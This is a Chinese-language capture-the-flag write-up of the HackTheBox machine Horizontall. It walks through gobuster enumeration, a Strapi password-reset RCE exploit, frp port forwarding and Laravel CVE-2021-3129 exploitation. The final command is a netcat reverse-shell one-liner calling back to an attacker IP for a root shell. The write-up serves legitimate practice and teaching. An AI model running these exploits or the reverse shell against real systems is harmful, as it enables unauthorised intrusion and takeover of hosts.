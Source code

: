 ```yaml
---
title: Horizontall
date: 2022-01-09 20:35:15
tags: HackThebox
categories: CMS
---
```


## 信息收集
目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/c6ea98b32b994a8f8a0cf9c759db1cee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们直接访问web服务，发现是一个正常的网页，扫描目录也没有发现有价值的信息

```bash
gobuster dir -u "http://horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/common.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f6b30b44e96d409f934b299e104245eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

那我们将注意力转移到子域名上，对子域名进行深入挖掘，发现了一个子域名，那么我们可以实施旁站注入

```bash
gobuster vhost -u http://horizontall.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2cf9c69827e84e87b9616816c817376d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
访问这个页面时发现使用的是`strapi`这个CMS
![在这里插入图片描述](https://img-blog.csdnimg.cn/3724c08fac2d427f80427e762141b930.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们依照这个路径进行路径的扫描，发现存在一个admin目录，我们访问发现会跳转到登录表单上

```bash
gobuster dir -u "http://api-prod.horizontall.htb/" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e 404,500 -t 50
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/19c0c71aaef14180949dead326bc5c37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
尝试了一遍SQL注入，发现不存在SQL注入的问题。那我们转向中间件漏洞这个方向上，在EDB上查找到存在一个密码重置的RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/fd1458a74a574a918911ef0a1ae87cfe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/acf1f0e8aea34dacb917647d4ee1f190.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们编辑为一个exp文件，并执行它获取到一个用户交互的shell终端。这里显示用户名和密码是`admin:SuperStrongPassword1`
![在这里插入图片描述](https://img-blog.csdnimg.cn/d93aa5dc52404922aadb13f884d33ccf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
登录进页面发现存在文件上传点，但是这个并不能进行文件上传getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/8b81cd2146e843a5941549c0bfe46564.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个EXP是存在RCE命令执行的功能的，那我们可以在交互终端上进行反弹一个shell给我们
![在这里插入图片描述](https://img-blog.csdnimg.cn/88522af59e4e42d2bd77c449691c2e62.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权
我们将linpeas.sh脚本下载到目标机器上，尝试看看有没有存在提权的突破点
![在这里插入图片描述](https://img-blog.csdnimg.cn/a7e43564181146d0b3e82efaac54674a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
运行脚本后，但是我们并没有发现任何可提权的点，但是我们查看主机运行的端口可以发现，主机的1337端口正在以root身份运行程序，由于我们用nmap无法扫描出该端口，可以推断主机做了内网端口的转发。
![在这里插入图片描述](https://img-blog.csdnimg.cn/0638be03f2764c3f9db143944921a40f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以使用frp进行内网的端口复用，首先先将`frpc`和`frpc.ini`上传到目标主机上，上传成功后设置好我们本机的ip地址和要转发本地端口和远程端口
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b03de7f59a043c887497c243c893d3d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在目标机器和本机上分别开启监听服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/28bf83b3599646c89714b357a407787f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后我们访问本机的8000端口，发现是一个由Laravel框架搭建起来的网页程序
![在这里插入图片描述](https://img-blog.csdnimg.cn/8581ba2866b940708a56f715327a7152.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这个应用程序近年发现一个存在RCE的漏洞，在github上可以搜到对应的EXP漏洞利用脚本，并执行可见漏洞利用成功
[https://github.com/LucifielHack/CVE-2021-3129_exploit](https://github.com/LucifielHack/CVE-2021-3129_exploit)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e95aaf54fdb343a199cf7ec03bc27d52.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们可以反弹一个root的shell到本机上

```bash
./exploit.py http://localhost:8000 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 4445 >/tmp/f"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d4a8f62eb834cb78ddc826a02de9132.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/db008ce7bfb14ce78f99c0d2534651e1.png)
